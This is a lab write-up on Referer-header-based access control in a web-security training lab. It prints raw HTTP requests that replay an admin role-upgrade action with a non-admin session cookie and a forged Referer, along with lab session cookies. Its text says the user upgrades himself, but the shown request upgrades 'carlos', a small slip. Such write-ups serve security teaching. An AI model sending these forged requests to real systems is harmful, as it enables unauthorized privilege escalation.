





# Referer-based access control

## Lab Description :


## Solution:
Some websites base access controls on the Referer header submitted in the HTTP request. The Referer header is generally added to requests by browsers to indicate the page from which a request was initiated.

For example, suppose an application robustly enforces access control over the main administrative page at /admin, but for sub-pages such as /admin/deleteUser only inspects the Referer header. If the Referer header contains the main /admin URL, then the request is allowed.

In this situation, since the Referer header can be fully controlled by an attacker, they can forge direct requests to sensitive sub-pages, supplying the required Referer header, and so gain unauthorized access.

Login as admin -
First lets familiarize ourselves by logging in as admin.

Clicking on admin panel link after logging in, takes us to this page where we can change privileges of a user.

When we upgrade carlos user privileges, the request sent is as follows,
```html
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

We can see that it has a referrer header which points to /admin.

Login as wiener -
Our goal now is to upgrade ourselves

Grab the cookie value of wiener.



Cookie of admin - j2REEeD3vHVXEKzXE7q1Hi98AQ2pCmsz Cookie of wiener - 5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd

Send the request where the privileges were changed by admin but by replacing admin cookie with wiener's cookie (non-admin)
```html
GET /admin-roles?username=carlos&action=upgrade HTTP/2
Host: 0a9f0016047a441d81097f3e003900e8.web-security-academy.net
Cookie: session=5u7PdoLWbATX6gzuN3kWxwBpsYbPC7dd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9f0016047a441d81097f3e003900e8.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
The focus of this lab is , if referrer based verification is made, then we can explioit it

With /admin in referrer header
We get 302 - redirect



Without /admin in referrer header
We get 401 - Unauthorized



Thus we solved the lab by upgrading ourselves(wiener) to higher privilege.


